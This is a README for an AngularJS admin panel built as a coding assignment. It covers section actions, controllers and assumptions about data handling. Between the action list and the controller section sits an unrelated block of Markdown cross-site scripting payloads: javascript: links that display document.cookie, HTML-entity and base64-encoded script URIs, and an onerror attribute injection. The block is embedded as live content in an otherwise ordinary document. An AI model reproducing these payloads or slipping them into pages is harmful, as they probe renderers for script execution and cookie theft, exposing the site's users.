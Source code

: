 # Almabase Assignment Admin Panel
## Individual Section 
In each section, the fields are shown and these fields can be removed by clicking respective the cross mark.<br>
<!-- Actions<br> -->
	* Move 
		- Section becomes movable and you can position it. 	To remove movability, click move again.
	* Edit
		- You can change the position of the section.
	* Delete
		- You can delete the section and whole data will be lost.
	* Add Fields
		- You can add the fields to section.

[a](javascript:prompt(document.cookie))
[a](j    a   v   a   s   c   r   i   p   t:prompt(document.cookie))
![a](javascript:prompt(document.cookie))\
<javascript:prompt(document.cookie)>  
<&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>  
![a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)\
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[a](&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29)
![a'"`onerror=prompt(document.cookie)](x)\
[citelol]: (javascript:prompt(document.cookie))
[notmalicious](javascript:window.onerror=alert;throw%20document.cookie)
[test](javascript://%0d%0aprompt(1))
[test](javascript://%0d%0aprompt(1);com)

## Controllers 
* `MainCtrl` (Main Controller)
    * `headerCtrl` (Header Controller)
		For future use
    * `sectionCtrl` (Section Controller)
		For Individual Section activities.
		* `sectionListCtrl` (Section List Controller)
			- List of all the sections.
		* `addSectionsCtrl` (Add Sections Controller)
			- For adding the section.


## Assumptions
* Data is hard Coded.
	- see the `loadData` method in `sectionctrl`.
	- To dynamically load the data, we need to add the server api call to this method. 
* To save the data
	- At any time the data is present in scope variables
		* Section Data
			- present in the `$scope.sections` variable
		* Fields Data
			- present in the `$scope.fields` variable
	- To send the data to server, Just a call is needed which will send data to server
		- Individual Section attributes
			- id
			- Name
			- Fields (Array)
		- Fields Attributes
			- id
			- Name
			- Property
* Don't Refresh the Webpage as No server Backend calls are made.You will loose all the data.
